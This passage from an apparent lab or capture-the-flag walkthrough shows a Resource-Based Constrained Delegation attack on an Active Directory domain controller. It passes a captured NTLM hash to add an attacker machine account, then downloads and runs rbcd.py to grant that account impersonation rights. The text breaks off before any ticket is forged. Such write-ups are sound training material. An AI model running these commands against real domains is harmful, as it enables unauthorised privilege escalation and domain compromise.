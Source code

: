 Let's use our access with the `l.livingstone` account to create a new machine account on the domain. We can do with by using `impacket-addcomputer`.

```
┌──(kali㉿kali)-[~]
└─$ impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.120.181 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Successfully added machine account ATTACK$ with password AttackerPC1!.
```

We can verify that this machine account was added to the domain by using our `evil-winrm` session from before.

```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> get-adcomputer attack


DistinguishedName : CN=ATTACK,CN=Computers,DC=resourced,DC=local
DNSHostName       :
Enabled           : True
Name              : ATTACK
ObjectClass       : computer
ObjectGUID        : 3fe60405-3692-4de9-8a20-917b234741b9
SamAccountName    : ATTACK$
SID               : S-1-5-21-537427935-490066102-1511301751-3601
UserPrincipalName :
```

With this account added, we now need a python script to help us manage the delegation rights. Let's grab a copy of [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) and use it to set `msDS-AllowedToActOnBehalfOfOtherIdentity` on our new machine account.

```
┌──(kali㉿kali)-[~]
└─$ wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py  
...
┌──(kali㉿kali)-[~]
└─$ sudo python3 rbcd.py -dc-ip 192.168.120.181 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone                                  
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against RESOURCEDC$
[*] Initializing LDAP connection to 192.168.120.181
[*] Using resourced\l.livingstone account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `ATTACK` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `RESOURCEDC`
[*] Delegation rights modified succesfully!
[*] ATTACK$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
```
